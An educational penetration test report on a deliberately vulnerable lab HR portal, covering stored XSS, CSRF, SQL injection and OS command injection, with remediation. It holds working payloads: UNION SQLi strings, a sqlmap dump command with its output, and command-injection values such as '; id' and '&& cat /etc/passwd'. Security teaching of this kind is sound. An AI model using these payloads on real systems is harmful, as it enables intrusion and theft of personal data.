# Penetration Test Report — FakeCompany Internal Portal

---

## Document Control

| Field | Value |
|-------|-------|
| **Report title** | Web Application Penetration Test — FakeCompany Internal Portal |
| **Author** | Diana Art |
| **Institution / Course** |Cyb08-onl|
| **Date** | 25 June 2026 |
| **Version** | 1.0 |
| **Classification** | Confidential — Educational Use Only |

---

## 1. Executive Summary

A manual web application penetration test was performed against **FakeCompany Internal Portal** — an intentionally vulnerable corporate HR portal deployed in an isolated laboratory environment. Testing followed the **OWASP Web Security Testing Guide (WSTG)** methodology. The primary tool was **Burp Suite Community Edition**; all exploitation was performed manually with reproducible PoCs documented.

**Key results:**

| Metric | Value |
|--------|-------|
| Total findings | **4** |
| Critical | **2** |
| High | **2** |
| Medium | 0 |
| Low | 0 |
| Attack chain demonstrated | Yes — from guest account to server compromise |

**Most significant risk:** An attacker with a `guest` account can chain **stored XSS** and **CSRF** to hijack the administrator session, then use **SQL injection** to extract HR PII access codes from the database and **command injection** in the report export feature to achieve OS command execution as the web server user.

**Overall recommendation:** The application is not suitable for production in its current state. All four findings must be remediated before any real-world use. Priority fixes: output encoding, CSRF tokens, parameterized SQL queries, and eliminating user input in shell commands.

---

## 2. Scope

### 2.1 In Scope

| Asset | Details |
|-------|---------|
| **Target application** | FakeCompany Internal Portal |
| **Base URL** | `http://192.168.56.4/` |
| **Technology stack** | Python Flask, SQLite, nginx → gunicorn |
| **Testing type** | Web application penetration test (Red Team) |

### 2.2 Out of Scope

- Denial of service / load testing
- Social engineering against real personnel
- Physical security
- Internal network pivoting / Active Directory
- Automated scanning as primary evidence (sqlmap referenced for comparison only)

### 2.3 Rules of Engagement

- Testing performed only in an isolated VM lab owned by the tester
- No testing against production or third-party systems
- All exploitation was manual, with reproducible PoCs and screenshots

---

## 3. Methodology

Testing aligned with **OWASP WSTG** phases:

| Phase | Activities performed |
|-------|---------------------|
| **Information gathering** | Mapped routes, identified roles (guest, employee, admin), reviewed session behavior |
| **Identity management** | Tested authentication, administrator password change flow |
| **Authorization** | Tested access to admin-only functions after account takeover |
| **Input validation** | Tested feedback form, search `username` parameter, export `report_label` |
| **Client-side** | Stored XSS (WSTG-INPV-02), CSRF (WSTG-SESS-05) |
| **Server-side** | SQL injection (WSTG-INPV-05), command injection (WSTG-INPV-12) |
| **Reporting** | CVSS v3.1 scoring, OWASP Top 10:2025 mapping, remediation |

**Primary tools:**

| Tool | Purpose |
|------|---------|
| Burp Suite Community | Proxy, Intercept, Repeater |
| Firefox + Burp proxy | Browser-based XSS/CSRF testing, DevTools Network |
| sqlmap | Automated SQLi confirmation and database enumeration (F-03) |
| Kali Linux | Attacker workstation |

---

## 4. Test Environment

### 4.1 Architecture

```
┌─────────────┐      :80       ┌──────────────────────────────────────┐
│ Kali Linux  │ ─────────────► │  Target VM (DMZ)                     │
│ + Burp      │                │  nginx → gunicorn → Flask + SQLite    │
└─────────────┘                └──────────────────────────────────────┘
```

### 4.2 Host Details

| Role | OS | IP |
|------|----|----|
| Attacker | Kali Linux | `[192.168.56.x — Kali VM]` |
| Target | Ubuntu (lab VM) | **192.168.56.4** |

### 4.3 Accounts Used During Testing

| Username | Password | Role | Purpose in test |
|----------|----------|------|-----------------|
| `guest` | `guest123` | guest | Initial foothold, XSS injection |
| `admin` | `admin123` → `pwned123` | admin | XSS/CSRF victim, then attacker |
| `diana`, `alex`, `maria` | see README | employee | Reference only; not used in chain |

---

## 5. Attack Chain Summary

The attack chain links four vulnerabilities into a single compromise scenario — from a low-privilege user to confidential data access and host-level impact.

```
Guest account (guest/guest123)
      ↓
Stored XSS on POST /contact
      ↓
Admin opens Feedback Inbox (GET /contact)
      ↓
XSS → POST /admin/settings/password (no CSRF token)
      ↓
Attacker logs in as admin / pwned123
      ↓
Admin → HR file → contact info visible, PII locked behind HR code
      ↓
SQL Injection on /admin/search → extract pii_access_code
      ↓
Enter code on /admin/hr/<id> → salary, SSN, internal notes
      ↓
Command Injection on /admin/reports/export → uid=www-data
```

**Fig. 1** — Guest login (chain start)



---

## 6. Findings Summary

| ID | Title | Severity | CVSS v3.1 | OWASP Top 10:2025 | Type |
|----|-------|----------|-----------|-------------------|------|
| F-01 | Stored Cross-Site Scripting (XSS) | High | **7.1** | A03 Injection | Client-side |
| F-02 | Cross-Site Request Forgery (CSRF) on Password Change | High | **8.1** | A01 Broken Access Control | Client-side |
| F-03 | SQL Injection in Account Lookup | Critical | **8.8** | A03 Injection | Server-side |
| F-04 | OS Command Injection in HR Report Export | Critical | **8.8** | A03 Injection | Server-side |

---

## 7. Detailed Findings

---

### F-01 — Stored Cross-Site Scripting (XSS)

| Field | Value |
|-------|-------|
| **Severity** | High |
| **CVSS v3.1** | 7.1 — `CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:H/A:N` |
| **OWASP Top 10:2025** | A03 — Injection |
| **WSTG** | WSTG-INPV-02 (Testing for Stored XSS) |
| **CWE** | CWE-79 |
| **Type** | Client-side |

#### Description

Feedback messages on `/contact` are stored in the database and rendered without output encoding — the Jinja2 `|safe` filter is applied in the template. Any authenticated user (including `guest`) can inject JavaScript that executes in the browser of anyone who views the feedback page, including administrators.

#### Location

- **Endpoint:** `POST /contact`, rendered on `GET /contact`
- **Parameter:** `message`
- **Sink:** `templates/contact.html` — `{{ msg.message|safe }}`
- **Backend:** `app.py` — INSERT into `contact_messages` without sanitization

#### How It Was Found

1. Logged in as `guest` and navigated to **Internal Feedback** (`/contact`) — WSTG-INPV-02.
2. Submitted test payload `<script>alert(1)</script>` — confirmed stored XSS on page reload.
3. Replaced with a working `fetch()` payload to demonstrate the CSRF chain (F-02).

#### Proof of Concept

**Payload:**

```html

```

**HTTP request (store payload):**

```http
POST /contact HTTP/1.1
Host: 192.168.56.4
Content-Type: application/x-www-form-urlencoded
Cookie: session=[GUEST_SESSION]

message=
```

**Steps to reproduce:**

1. Log in as `guest` / `guest123`.
2. Open `/contact`, paste the payload into **Your message**, submit the form.
3. Log in as `admin`, open `/contact` (Feedback Inbox).
4. The script executes in the admin browser context.

**Evidence:**

**Fig. 2** — Payload in feedback form (guest)



**Fig. 3** — DevTools shows background POST to password change



**Fig. 4** — Burp Proxy: admin opens `/contact` with admin session cookie



#### Impact

- Arbitrary JavaScript execution in trusted users' browsers (admin).
- Foundation for account takeover when chained with CSRF (F-02).
- Potential cookie theft (if HttpOnly missing), UI manipulation, malware delivery.

#### CVSS v3.1 Justification

| Metric | Value | Rationale |
|--------|-------|-----------|
| AV | Network | Exploitable over HTTP |
| AC | Low | Trivial payload |
| PR | Low | Requires guest account (low privileges) |
| UI | Required | Admin must open feedback |
| S | Changed | XSS affects admin security context |
| C | Low | Limited direct data access via XSS alone |
| I | High | Full ability to perform actions as admin in browser |
| A | None | XSS does not affect server availability |

**Score: 7.1**

#### Remediation

| Priority | Recommendation |
|----------|----------------|
| **Immediate** | Remove `\|safe` from `contact.html`; rely on Jinja2 auto-escaping |
| **Short-term** | Content-Security-Policy: `default-src 'self'; script-src 'self'` |
| **Long-term** | If HTML is required — sanitize with an allowlist library (bleach) |

```html
<!-- Vulnerable -->
{{ msg.message|safe }}

<!-- Fixed -->
{{ msg.message }}
```

---

### F-02 — Cross-Site Request Forgery (CSRF) on Password Change

| Field | Value |
|-------|-------|
| **Severity** | High |
| **CVSS v3.1** | 8.1 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N` |
| **OWASP Top 10:2025** | A01 — Broken Access Control |
| **WSTG** | WSTG-SESS-05 (Testing for CSRF) |
| **CWE** | CWE-352 |
| **Type** | Client-side |

#### Description

The administrator password change endpoint `POST /admin/settings/password` accepts state-changing requests without a CSRF token, Referer/Origin validation, or current-password verification. Combined with F-01, an attacker changes the admin password to `pwned123` without the victim's knowledge — the admin only needs to view the feedback page.

#### Location

- **Endpoint:** `POST /admin/settings/password`
- **Parameters:** `new_password`, `confirm_password`
- **Backend:** `app.py` — `admin_change_password()`, only validates password field match

#### How It Was Found

1. Captured a legitimate password change request in Burp (WSTG-SESS-05).
2. Replayed the POST without a CSRF token — **200/302, password changed**.
3. Confirmed the chain: XSS (F-01) automatically sends the same POST from the admin browser; Referer points to `/contact`.

#### Proof of Concept

**Raw HTTP (Burp Repeater):**

```http
POST /admin/settings/password HTTP/1.1
Host: 192.168.56.4
Content-Type: application/x-www-form-urlencoded
Cookie: session=eyJyb2xlIjoiYWRtaW4iLCJ1c2VyIjoiYWRtaW4ifQ.[...]
Referer: http://192.168.56.4/contact

new_password=pwned123&confirm_password=pwned123
```

**Steps to reproduce:**

1. Inject the XSS payload from F-01 as guest.
2. Admin opens `/contact`.
3. In Burp Intercept, capture POST to `/admin/settings/password` — **no csrf_token** in request body.
4. Log in as `admin` / `pwned123` — account takeover confirmed.

**Evidence:**

**Fig. 5** — Burp Intercept: POST password change, Referer `/contact`, no anti-CSRF



**Fig. 6** — Admin Dashboard after takeover



**Fig. 7** — Firefox prompts to save new password `pwned123` for admin



#### Impact

- Full administrator account compromise.
- Access to all admin-only functions: SQLi (F-03), HR PII, command injection (F-04).
- Authentication integrity breach without knowledge of the current password.

#### CVSS v3.1 Justification

| Metric | Value | Rationale |
|--------|-------|-----------|
| AV | Network | Over HTTP |
| AC | Low | Trivial POST replay / XSS fetch |
| PR | None | Attacker does not need admin privileges |
| UI | Required | Admin must open page with XSS |
| S | Unchanged | Compromise within application scope |
| C | High | Access to all admin data |
| I | High | Password change = full account control |
| A | None | — |

**Score: 8.1**

#### Remediation

| Priority | Recommendation |
|----------|----------------|
| **Immediate** | CSRF token on all POST requests (Flask-WTF / double-submit cookie) |
| **Short-term** | Session cookie: `SameSite=Strict; Secure; HttpOnly` |
| **Long-term** | Require current password before change; re-authentication for sensitive actions |

```python
# Example with Flask-WTF
from flask_wtf.csrf import CSRFProtect
csrf = CSRFProtect(app)
# In form: {{ csrf_token() }}
```

---

### F-03 — SQL Injection in Account Lookup

| Field | Value |
|-------|-------|
| **Severity** | Critical |
| **CVSS v3.1** | 8.8 — `CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H` |
| **OWASP Top 10:2025** | A03 — Injection |
| **WSTG** | WSTG-INPV-05 (Testing for SQL Injection) |
| **CWE** | CWE-89 |
| **Type** | Server-side |

#### Description

The `username` parameter in `/admin/search` is concatenated directly into a SQL query without parameterization. An administrator can use UNION-based injection to read arbitrary SQLite tables, including `hr_records` with the `pii_access_code` field — secret codes that gate access to the PII section.

#### Location

- **Endpoint:** `GET/POST /admin/search?username=`
- **Parameter:** `username`
- **Vulnerable code:** `app.py` lines 328–331:

```python
query = (
    "SELECT id, username, role, email "
    f"FROM users WHERE username = '{username}'"
)
```

#### How It Was Found

1. After admin takeover — opened **Account Lookup** (`/admin/search`) — WSTG-INPV-05.
2. Submitted `'` — generic error returned (*Unable to complete search*).
3. Payload `admin' OR '1'='1'--` — all users returned (boolean/tautology).
4. UNION against `sqlite_master` — discovered `hr_records` schema (columns: `pii_access_code`, `ssn`, `salary`, etc.).
5. UNION SELECT from `hr_records` — extracted HR access codes for all employees.
6. **sqlmap verification** — automated enumeration confirmed the same injection point and dumped full database contents (see below).

#### Proof of Concept

**Step 1 — confirm injection:**

```
admin' OR '1'='1'--
```

```http
GET /admin/search?username=admin'%20OR%20'1'%3D'1'-- HTTP/1.1
Host: 192.168.56.4
Cookie: session=[ADMIN_SESSION]
```

**Step 2 — schema reconnaissance:**

```
' UNION SELECT name, sql, 1, 1 FROM sqlite_master WHERE type='table'--
```

**Step 3 — extract HR codes (4 columns must match original SELECT):**

```
' UNION SELECT employee_id, pii_access_code, phone, office_extension FROM hr_records--
```

```http
GET /admin/search?username='%20UNION%20SELECT%20employee_id,%20pii_access_code,%20phone,%20office_extension%20FROM%20hr_records-- HTTP/1.1
Host: 192.168.56.4
Cookie: session=[ADMIN_SESSION]
```

**UNION result:**

| ID | Username *(actual: pii_access_code)* | Role *(actual: phone)* | Email *(actual: ext.)* |
|----|--------------------------------------|------------------------|------------------------|
| 1 | PII-D1-7F3A | +1-555-0142 | ext. 401 |
| 2 | PII-A2-9B2C | +1-555-0187 | ext. 512 |
| 3 | PII-M3-4E8D | +1-555-0199 | ext. 305 |

**Automated verification — sqlmap**

After manual exploitation, **sqlmap** was run against the same endpoint to confirm the finding and compare automated vs. manual results. Using the admin session cookie, sqlmap identified the injection in **49 HTTP requests**:

| Type | Technique | Example payload |
|------|-----------|-----------------|
| Boolean-based blind | AND boolean-based blind — WHERE/HAVING | `username=admin' AND 7429=7429 AND 'acew'='acew` |
| Time-based blind | SQLite > 2.0 time-based blind (heavy query) | `username=admin' AND 5549=LIKE(CHAR(65,66,...),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'WdkK'='WdkK` |
| UNION query | Generic UNION (NULL) — **4 columns** | `username=admin' UNION ALL SELECT NULL,NULL,NULL,CHAR(113,107,...)-- zbPf` |

**Fingerprinting:**

| Component | Detected value |
|-----------|----------------|
| Web server OS | Linux Ubuntu |
| Web server | nginx 1.24.0 |
| Back-end DBMS | SQLite |

sqlmap then enumerated and dumped all application tables. Unlike the manual UNION PoC (which extracted only `pii_access_code` to bypass the HR gate), sqlmap retrieved **complete rows** including plaintext passwords:

**Table `hr_records` (3 entries) — full dump:**

| employee_id | ssn | phone | salary | pii_access_code | office_extension | personal_address | internal_notes |
|-------------|-----|-------|--------|-----------------|------------------|------------------|----------------|
| 1 | 482-91-7734 | +1-555-0142 | $94,500 | PII-D1-7F3A | ext. 401 | 14 Oak Street, Suite 4B | Completed SOC2 audit Q3. VPN access: tier-2. |
| 2 | 591-22-8841 | +1-555-0187 | $112,000 | PII-A2-9B2C | ext. 512 | 88 River Road, Apt 12 | Domain admin credentials in KeePass vault srv-01. |
| 3 | 403-55-9920 | +1-555-0199 | $87,200 | PII-M3-4E8D | ext. 305 | 3 Maple Lane | Pending background check for contractor batch #7. |

**Table `users` (7 entries) — includes plaintext passwords:**

| id | username | role | email | password |
|----|----------|------|-------|----------|
| 1 | admin | admin | admin@fakecompany.local | admin123 |
| 2 | alice | user | — | alice123 |
| 3 | bob | user | — | bob123 |
| 4 | guest | guest | guest@fakecompany.local | guest123 |
| 5 | diana | employee | diana@fakecompany.local | diana2024! |
| 6 | alex | employee | alex@fakecompany.local | sysadmin99 |
| 7 | maria | employee | maria@fakecompany.local | hr_secure1 |

**Manual vs. automated comparison:**

| Aspect | Manual (Burp) | sqlmap |
|--------|---------------|--------|
| Discovery | Guided by attack chain — targeted `pii_access_code` first | Full blind/UNION enumeration in 49 requests |
| Data extracted | HR codes → unlock PII in UI (demonstrates business impact) | Entire `hr_records` + `users` with passwords in one pass |
| Attack chain context | Integrated into guest → admin → PII flow | Standalone; requires admin session cookie |
| Value for report | Shows methodology, WSTG steps, screenshots | Confirms exploitability; quantifies full data exposure |

> Full sqlmap console output: see **Appendix D**.

**Steps to reproduce:**

1. Log in as admin (after F-01/F-02).
2. Admin → Account Lookup.
3. Intercept request in Burp Repeater, substitute UNION payload.
4. Use code `PII-D1-7F3A` on `/admin/hr/1` to unlock PII.

**Evidence:**

**Fig. 8** — Account Lookup entry point



**Fig. 9** — Burp Repeater: `admin' OR '1'='1'--`, all users returned



**Fig. 10** — UNION → `hr_records` schema from sqlite_master



**Fig. 11** — UNION → PII access codes extracted



**Fig. 12** — Admin → Employee HR files



**Fig. 13** — HR file — stolen PII code entered



**Fig. 14** — PII unlocked — salary, SSN, internal notes



#### Impact

- Bypass of secondary PII access control (HR access code).
- Exposure of salary, SSN, home address, internal HR notes.
- Full read access to SQLite database (users, hr_records, contact_messages).
- **sqlmap dump:** all 7 user accounts with **plaintext passwords** exposed — enables credential reuse without further exploitation.
- Potential INSERT/UPDATE via extended injection (not tested).

#### CVSS v3.1 Justification

| Metric | Value | Rationale |
|--------|-------|-----------|
| AV | Network | HTTP |
| AC | Low | Standard UNION SQLi |
| PR | High | Requires admin (achievable via chain) |
| UI | None | Not required |
| S | Unchanged | — |
| C | High | Full read of confidential HR data |
| I | High | Potential data modification via SQL |
| A | High | Potential destructive SQL operations |

**Score: 8.8**

#### Remediation

| Priority | Recommendation |
|----------|----------------|
| **Immediate** | Parameterized queries for `username` |
| **Short-term** | Store `pii_access_code` outside application DB (secrets manager) |
| **Long-term** | Least-privilege DB user; search query should not reach `hr_records` |

```python
# Fixed
cursor.execute(
    "SELECT id, username, role, email FROM users WHERE username = ?",
    (username,),
)
```

---

### F-04 — OS Command Injection in HR Report Export

| Field | Value |
|-------|-------|
| **Severity** | Critical |
| **CVSS v3.1** | 8.8 — `CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H` |
| **WSTG** | WSTG-INPV-12 (Testing for Command Injection) |
| **OWASP Top 10:2025** | A03 — Injection |
| **CWE** | CWE-78 |
| **Type** | Server-side |

#### Description

The **Export HR Report** feature (`/admin/reports/export`) passes the **Report reference label** field (`report_label`) to a legacy shell command via `shell=True`. Shell metacharacters (`;`, `&&`) allow arbitrary command execution. In lab safe mode (default), output is **simulated**; on an isolated VM with `FAKECOMPANY_UNSAFE_COMMANDS=1`, real shell execution occurs.

#### Location

- **Endpoint:** `POST /admin/reports/export`
- **Parameters:** `report_label`, `employee_id`
- **Backend:** `app.py` — `_run_hr_report_export()`, `subprocess` with `shell=True`

#### How It Was Found

1. After PII extraction (F-03) — reviewed admin tools (WSTG-INPV-12).
2. **Export HR Report** — label field described as *internal filename reference*.
3. Payload `alex_2026; id` — Export log showed `uid=33(www-data)`.
4. Confirmed with `alex_2026 && whoami` → `www-data`.

#### Proof of Concept

**Payloads:**

```
alex_2026; id
alex_2026 && whoami
compliance_q1 && cat /etc/passwd
```

**Raw HTTP:**

```http
POST /admin/reports/export HTTP/1.1
Host: 192.168.56.4
Content-Type: application/x-www-form-urlencoded
Cookie: session=[ADMIN_SESSION]

employee_id=1&report_label=alex_2026;+id
```

**Simulated output (lab safe mode):**

```
$ hr-export --employee "Diana Petrova" --label alex_2026; id
Generating personnel summary for compliance archive...
Output: /var/reports/hr_export_alex_2026; id.pdf
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Steps to reproduce:**

1. Log in as admin.
2. Admin → Export HR Report.
3. Select an employee, enter `alex_2026; id` in **Report reference label**.
4. Click **Generate report** — verify Export log.

**Evidence:**

**Fig. 15** — Admin Dashboard — Export HR Report entry point



**Fig. 16** — Payload input `alex_2026; id`



**Fig. 17** — Export log: `uid=33(www-data)` after `id`



**Fig. 18** — Export log: `whoami` → `www-data`



#### Impact

- RCE as `www-data` (when unsafe mode enabled).
- Escalation from HR data breach to host compromise.
- Filesystem read (`/etc/passwd`), lateral movement, persistence.

#### CVSS v3.1 Justification

| Metric | Value | Rationale |
|--------|-------|-----------|
| AV | Network | HTTP POST |
| AC | Low | `; id` is sufficient |
| PR | High | Admin-only endpoint |
| UI | None | — |
| S | Changed | Compromise extends beyond web app |
| C | High | Server file read |
| I | High | Arbitrary commands |
| A | High | Potential DoS / data destruction |

**Score: 8.8** (Critical when `FAKECOMPANY_UNSAFE_COMMANDS=1`)

#### Remediation

| Priority | Recommendation |
|----------|----------------|
| **Immediate** | Remove `shell=True`; never pass user input to shell |
| **Short-term** | Allowlist for `report_label`: `^[a-zA-Z0-9_-]{1,32}$` |
| **Long-term** | In-process PDF generation (ReportLab/weasyprint), no shell scripts |

```python
# Fixed — no shell
import re
from pathlib import Path

SAFE_LABEL = re.compile(r"^[a-zA-Z0-9_-]{1,32}$")
if not SAFE_LABEL.match(report_label):
    abort(400)
report_path = Path("/var/reports") / f"hr_export_{report_label}.pdf"
```

---

## 8. Remediation Roadmap

> Standalone prioritization section — demonstrates understanding of defensive security, not just exploitation.

| Priority | Finding | Effort | Owner | Recommendation |
|----------|---------|--------|-------|----------------|
| **P0 — Immediate** | F-03 SQL Injection | Low | Development | Parameterized queries; remove f-string in SQL |
| **P0 — Immediate** | F-01 Stored XSS | Low | Development | Remove `\|safe`; CSP `script-src 'self'` |
| **P1 — High** | F-02 CSRF | Medium | Development | Flask-WTF CSRF tokens; SameSite=Strict |
| **P1 — High** | F-04 Command Injection | Medium | Development | Remove shell; allowlist label; PDF library |
| **P2 — Defense in depth** | PII codes in DB | Medium | Architecture | Secrets manager; rate-limit code entry |
| **P2 — Infrastructure** | HTTP only | Low | DevOps | TLS (Let's Encrypt / internal CA) |

**Implementation order:**

1. **Week 1:** F-03 + F-01 (closes data exposure and chain foothold).
2. **Week 2:** F-02 + F-04 (closes account takeover and RCE).
3. **Week 3:** Defense in depth — externalize secrets, TLS, security headers.

**Verification (retest checklist):**

- [ ] XSS payload renders as text, does not execute
- [ ] POST `/admin/settings/password` without CSRF token → 403
- [ ] `' OR '1'='1'--` in search → error or 0 results, no UNION
- [ ] `; id` in report_label → 400 Bad Request

---

## 9. Conclusion

Testing of FakeCompany Internal Portal confirmed **four vulnerabilities** (2 client-side + 2 server-side) that collectively form a critical business risk: from a guest account to SSN/salary exposure and simulated RCE.

Manual WSTG-aligned testing with Burp Suite provided full coverage with reproducible PoCs — each vector documented with request, payload, and screenshot. **sqlmap** independently confirmed F-03 (boolean, time-based, and UNION techniques) and demonstrated that a single SQLi flaw exposes the entire database including plaintext credentials — but sqlmap alone does not demonstrate the **attack chain** from guest foothold or explain **what to fix at each layer**.

**Testing completed:** 25 June 2026  
**Retest recommended:** Yes — after remediation roadmap implementation

---

## 10. Appendices

### Appendix A — Screenshot Index

| Figure | Description | Finding | File |
|--------|-------------|---------|------|
| Fig. 1 | Guest login — chain start | Environment | `fig-01-guest-login.png` |
| Fig. 2 | XSS payload in feedback form | F-01 | `fig-02-xss-payload.png` |
| Fig. 3 | DevTools: background POST password change | F-01/F-02 | `fig-03-xss-devtools-csrf.png` |
| Fig. 4 | Burp Proxy: admin GET /contact | F-01 | `fig-04-burp-admin-contact.png` |
| Fig. 5 | Burp Intercept: CSRF password POST | F-02 | `fig-05-burp-csrf-password.png` |
| Fig. 6 | Admin Dashboard after takeover | F-02 | `fig-06-admin-dashboard.png` |
| Fig. 7 | Firefox: password pwned123 saved | F-02 | `fig-07-firefox-password-saved.png` |
| Fig. 8 | Account Lookup UI | F-03 | `fig-08-account-lookup.png` |
| Fig. 9 | SQLi boolean: OR 1=1 | F-03 | `fig-09-sqli-boolean.png` |
| Fig. 10 | SQLi UNION: sqlite_master schema | F-03 | `fig-10-sqli-schema.png` |
| Fig. 11 | SQLi UNION: PII access codes | F-03 | `fig-11-sqli-union-codes.png` |
| Fig. 12 | Employee HR files list | F-03 | `fig-12-hr-files.png` |
| Fig. 13 | HR file — PII code entry | F-03 | `fig-13-pii-code-entry.png` |
| Fig. 14 | PII unlocked — salary, SSN | F-03 | `fig-14-pii-unlocked.png` |
| Fig. 15 | Admin Dashboard — Export HR Report | F-04 | `fig-15-export-entry.png` |
| Fig. 16 | Command injection payload input | F-04 | `fig-16-cmdi-payload.png` |
| Fig. 17 | Export log: uid=www-data (id) | F-04 | `fig-17-cmdi-id.png` |
| Fig. 18 | Export log: whoami → www-data | F-04 | `fig-18-cmdi-whoami.png` |

*All screenshots live in `screenshots/` and are embedded inline in Section 7.*

### Appendix B — OWASP / WSTG Reference

| Finding | OWASP Top 10:2025 | WSTG | CWE |
|---------|-------------------|------|-----|
| F-01 XSS | A03 Injection | WSTG-INPV-02 | CWE-79 |
| F-02 CSRF | A01 Broken Access Control | WSTG-SESS-05 | CWE-352 |
| F-03 SQLi | A03 Injection | WSTG-INPV-05 | CWE-89 |
| F-04 CMDi | A03 Injection | WSTG-INPV-12 | CWE-78 |

### Appendix C — Tools & Versions

| Tool | Version |
|------|---------|
| Burp Suite Community | 2026.3.2 |
| Firefox | 140.0 |
| sqlmap | 1.8.x (Kali default) |
| Kali Linux | 2024.x |
| Target | FakeCompany on 192.168.56.4 |

### Appendix D — sqlmap Output (F-03)

```
sqlmap identified the following injection point(s) with a total of 49 HTTP(s) requests:
---
Parameter: username (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 7429=7429 AND 'acew'='acew

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: username=admin' AND 5549=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'WdkK'='WdkK

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: username=admin' UNION ALL SELECT NULL,NULL,NULL,CHAR(113,107,98,122,113)||CHAR(107,80,70,89,71,81,66,97,115,107,104,107,88,108,109,76,116,105,113,97,113,71,99,120,80,66,110,87,97,97,87,102,87,74,101,82,68,86,97,70)||CHAR(113,112,118,113,113)-- zbPf
---
web server operating system: Linux Ubuntu
web application technology: Nginx 1.24.0
back-end DBMS: SQLite

Database: <current>
Table: hr_records [3 entries]
+-------------+-------------+-------------+----------+---------------------------------------------------+-----------------+------------------+-------------------------+
| employee_id | ssn         | phone       | salary   | internal_notes                                    | pii_access_code | office_extension | personal_address        |
+-------------+-------------+-------------+----------+---------------------------------------------------+-----------------+------------------+-------------------------+
| 1           | 482-91-7734 | +1-555-0142 | $94,500  | Completed SOC2 audit Q3. VPN access: tier-2.       | PII-D1-7F3A     | ext. 401         | 14 Oak Street, Suite 4B |
| 2           | 591-22-8841 | +1-555-0187 | $112,000 | Domain admin credentials in KeePass vault srv-01. | PII-A2-9B2C     | ext. 512         | 88 River Road, Apt 12   |
| 3           | 403-55-9920 | +1-555-0199 | $87,200  | Pending background check for contractor batch #7. | PII-M3-4E8D     | ext. 305         | 3 Maple Lane            |
+-------------+-------------+-------------+----------+---------------------------------------------------+-----------------+------------------+-------------------------+

Database: <current>
Table: users [7 entries]
+----+-------------+----------+-------------------------+------------+----------+
| id | employee_id | role     | email                   | password   | username |
+----+-------------+----------+-------------------------+------------+----------+
| 1  | NULL        | admin    | admin@fakecompany.local | admin123   | admin    |
| 2  | NULL        | user     | NULL                    | alice123   | alice    |
| 3  | NULL        | user     | NULL                    | bob123     | bob      |
| 4  | NULL        | guest    | guest@fakecompany.local | guest123   | guest    |
| 5  | 1           | employee | diana@fakecompany.local | diana2024! | diana    |
| 6  | 2           | employee | alex@fakecompany.local  | sysadmin99 | alex     |
| 7  | 3           | employee | maria@fakecompany.local | hr_secure1 | maria    |
+----+-------------+----------+-------------------------+------------+----------+

Database: <current>
Table: contact_messages [0 entries]
```

**Example sqlmap command used:**

```bash
sqlmap -u "http://192.168.56.4/admin/search?username=admin" \
  --cookie="session=<ADMIN_SESSION_COOKIE>" \
  --batch --dump
```

---

*End of report*
